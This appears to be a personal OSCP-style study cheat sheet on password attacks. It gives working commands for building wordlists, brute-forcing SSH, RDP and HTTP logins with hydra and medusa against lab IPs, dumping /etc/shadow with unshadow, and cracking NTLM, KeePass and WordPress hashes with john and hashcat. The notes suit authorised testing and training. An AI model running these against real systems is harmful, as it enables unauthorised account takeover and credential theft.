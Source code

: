 # Password Attacks

## references

<http://gchq.github.io/CyberChef/>
<http://openwall.info/wiki/john/sample-hashes>

## dictionary

```bash
/usr/share/wordlists/
/usr/share/seclist/

cewl www.megacorpone.com -m 6 -w megacorpone-cewl.txt
john --wordlist=megacorpone-cewl.txt --rules --stdout > megacorpone-john.txt

crunch 6 8 -f /usr/share/crunch/charset.lst mixalpha-numeric-all-space -o crunch.txt
```

## online

### crackstation

<https://crackstation.net/>

### medusa

```bash
medusa -d
medusa -M http -q

medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin -T 10

```

### hydra

```bash
hydra -l george -P ~/OSCP/rockyou.txt -s 2222 ssh://192.168.161.201
hydra -L ./user.txt -p "SuperS3cure1337#" rdp://192.168.161.202

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-get 

hydra -l admin -P ~/OSCP/rockyou.txt 192.168.161.201 http-post-form "/index.php:fm_usr=^USER^&fm_pwd=^PASS^:Login failed"
hydra 10.1.0.2 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid Password!" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30 -o hydra-http-post-form.txt
```

## offline

### hashid

```bash
hashid '$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC'
hashid -m hash.txt
hashid -j
```

### john

```bash
unshadow /etc/passwd /etc/shadow > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### hashcat

```bash
hashcat --help | grep -ni ntlm
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force --show

hashcat --help | grep -ni \$p 
hashcat -m 400 wp.hash ~/OSCP/rockyou.txt 
```
